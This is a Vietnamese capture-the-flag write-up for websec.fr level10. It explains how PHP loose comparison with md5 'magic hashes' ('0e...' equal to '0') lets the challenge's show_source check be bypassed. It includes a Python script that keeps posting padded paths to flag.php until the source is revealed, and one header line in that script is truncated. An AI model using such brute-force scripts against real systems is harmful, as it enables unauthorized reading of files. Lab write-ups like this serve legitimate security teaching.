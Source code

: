 ## websec.fr-level10

Hi mọi người, đây là bài public writeup đầu tiên của mình :D
Chủ đề của bài viết này chính là challenge level10 của websec.fr

Khi truy cập vào challenge, ta được cung cấp source của file index.php.

```php
<?php
        if (isset ($_REQUEST['f']) && isset ($_REQUEST['hash'])) {
            $file = $_REQUEST['f'];
            $request = $_REQUEST['hash'];

            $hash = substr (md5 ($flag . $file . $flag), 0, 8);

            echo '<div class="row"><br><pre>';
            if ($request == $hash) {
            show_source ($file);
            } else {
            echo 'Permission denied!';
            }
            echo '</pre></div>';
        }
  ?>

```

Đầu tiên biến $hash sẽ được gán bởi giá trị của hàm md5().

Biến $hash và $request được so sánh bởi '==', là 'Loose comparision' nên 2 giá trị sẽ được đưa về cùng một kiểu dữ liệu để so sánh. (các bạn có thể tham khảo tại đây: https://www.php.net/manual/en/language.operators.comparison.php)

Nếu giá trị 0e... được tạo ra bởi hàm md5() và được so sánh với với giá trị 0 được gán cho biến $request thì hàm if sẽ trở thành True. Khi đó ta có thể xem được nội dung của file flag.php thông qua hàm show_source().

Vì cách thức hoạt động của md5 khá phức tạp (các bạn có thể tham khảo tại: https://vi.wikipedia.org/wiki/MD5) nên ý nghĩ đầu tiên là brute-force bằng cách chỉnh sửa các giá trị truyền vào hàm md5() đến khi nào có được giá trị 0e... :D

Ta có liên tục thêm './' vào trước 'flag.php' thông qua param 'f' của biến $_REQUEST['f'] đến khi nào ra được giá trị mong muốn. Nhưng nếu làm thế sẽ tăng độ dài của tham số truyền vào và vượt mức cho phép của Apache nên ta có thể thay thế bằng "." + "/"*i + "flag.php"

Mình sẽ viết script để exploit bằng python

```python
import requests

burp0_url = "https://websec.fr:443/level10/index.php"
burp0_headers = {"Cache-Control": "max-age=0", "Sec-Ch-Ua": "\"Not;A=Brand\";v=\"99\", \"Chromium\";v=\"106\"", "Sec-Ch-Ua-Mobile": ">
filename = "flag.php"
i = 1
while True:
     burp0_data = {"f":filename, "hash": "0"}
     r = requests.post(burp0_url, headers=burp0_headers, data=burp0_data)
     if "Permission denied!" not in r.text:
          print(r.text)
          break
     else:
          print("Test: ", i)
     filename = "." + "/"*i + "flag.php"
     i = i + 1

```

Brute-force sẽ hơi mất nhiều thời gian, nhưng chờ đợi là hạnh phúc :DD


Nếu có mình có sai sót gì về kiến thức hay bất kỳ vấn đề gì, xin hãy đóng góp qua mail: dangth2002@gmail.com. 

